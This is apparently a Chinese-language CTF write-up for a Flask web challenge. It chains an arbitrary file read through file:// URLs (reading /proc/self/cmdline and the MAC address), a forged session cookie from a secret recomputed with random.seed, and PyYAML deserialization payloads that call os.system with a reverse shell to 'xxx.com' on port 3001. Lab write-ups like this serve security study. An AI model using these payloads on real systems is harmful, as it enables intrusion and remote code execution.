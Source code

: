 tags:: CTF/Python/YAML, CTF/伪协议

- # 任意文件读取
	- 读取/proc/self/cmdline得知源码在/app/app.py
	- 使用双写构造payload绕过正则读取源文件：``GET /read?url=file:///proc/self/root/%25%36%31pp/%25%36%31pp.py HTTP/1.1``
- # Cookie伪造
	- 读MAC
		- ```python
		  r = base_get(url + "/read", params = {
		      "url": "file:///sys/class/net/eth0/address"
		  }, acceptable_code=None, timeout = 10)
		  mac = "".join(r.text.split(":"))
		  int(mac, 16)
		  # 2485376910098
		  ```
	- 算secret
		- ```python
		  random.seed(2485376910098)
		  str(random.random()*233)
		  # 169.37847730221344
		  ```
	- 拿到secret用[[CTFWEB/Flask-Unsign]]解密即可
- # YAML反序列化
	- ```python
	  file_content = """\
	  !!python/object/new:tuple
	  - !!python/object/new:map
	    - !!python/name:eval
	    - [ "__import__('os').system('{}')" ]
	  """.format(generate_reverse_shell_payload("xxx.com", 3001))
	  
	  r = base_post(url + "/upload", files = {
	      "file": ("a.txt", file_content)
	  })
	  
	  ```
	- 也可以用
		- ```python
		  file_content = """\
		  !!python/object/new:str
		    args: []
		    state: !!python/tuple
		      - "__import__('os').system('{}')"
		      - !!python/object/new:staticmethod
		        args: []
		        state:
		          update: !!python/name:eval
		          items: !!python/name:list
		  """.format(
		    # generate_reverse_shell_payload("xxx.com", 3001)
		    "sleep 5"
		  )
		  
		  r = base_post(url + "/upload", files = {
		      "file": ("a.txt", file_content)
		  })
		  
		  ```